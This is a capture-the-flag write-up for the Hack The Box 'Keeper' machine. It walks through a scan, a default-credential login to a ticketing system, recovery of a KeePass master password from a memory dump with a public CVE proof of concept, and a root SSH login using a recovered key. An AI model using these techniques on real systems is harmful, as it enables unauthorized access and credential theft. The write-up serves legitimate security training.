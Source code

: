 ```yaml
---
Title: Keeper HTB
Rating: Easy
OS: Linux
---
```

# Keeper HTB

We'll start with a basic nmap scan across all ports:
```bash

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The base web page has this link, the URL is redirecting to:
`http://tickets.keeper.htb/rt/`

![Keeper Web Page](Images/Keeper_HTB/Screenshot_2025-01-31_01-06-23.png)

I'll dump the domain name into the `/etc/hosts` file:
`110.10.11.227    tickets.keeper.htb keeper.htb`

![Keeper Ticket Page](Images/Keeper_HTB/Screenshot_2025-01-31_01-12-34.png)

We can sign in using the default credentials of `root` and `password`
Checking through the tickets, there's one open about a KeePass issue on the users Windows box

![Open_Ticket](Images/Keeper_HTB/Open_Tickets.png)

Some further poking around, we can see that the user Inorgaard has their user password in the profile:

![Inorgaard user](Images/Keeper_HTB/Inorgaard.png)

Once we're on this box, we'll grab two files that were alluded to in the ticket:
```bash
lnorgaard@keeper:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.37 - - [31/Jan/2025 08:31:03] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:08] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:26] "GET /KeePassDumpFull.dmp HTTP/1.1" 200 -
```

A quick google on KeePass memory leak shows a common CVE from back in 2023.
I'll grab this Python3 PoC designed for the CVE and run it against the crash file we received:
https://github.com/z-jxy/keepass_dump

```bash
└─$ python3 keepass_dump.py -f KeePassDumpFull.dmp --recover --debug -o out.txt
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
---snip---
[*] 10000000 bytes since last found. Ending scan.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
[?] Recovering...
[-] Couldn't verify plaintext match in dump for: dgrd med flde
[*] Saved 1 combinations to out.txt
``` 

The string doesn't make much sence, but I'll copy it into Google to see other common references.
We get a close match to a Danish red berry pudding (I'm assuming our compromised RT name is also Danish).
`Rødgrød med fløde` 

I'll use this as the Master Password to access the passcode database that we copied before and get access.

Under the Network folder, we have an entry for `keeper.htb (Ticketing Server)` that has an SSH RSA key in the comments.
I'll save this to a file on my machine, and use that along with the password to try get a root session to the box

Before we can do this, we'll need to convert the key from the PuttyGen format to OpenSSH:
`puttygen puttyKey.ppk -O private-openssh -o privKey` 

Now we can use it to establish our connection:

```bash
└─$ ssh -i privKey root@10.10.11.227 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# cat /root/root.txtbash
```
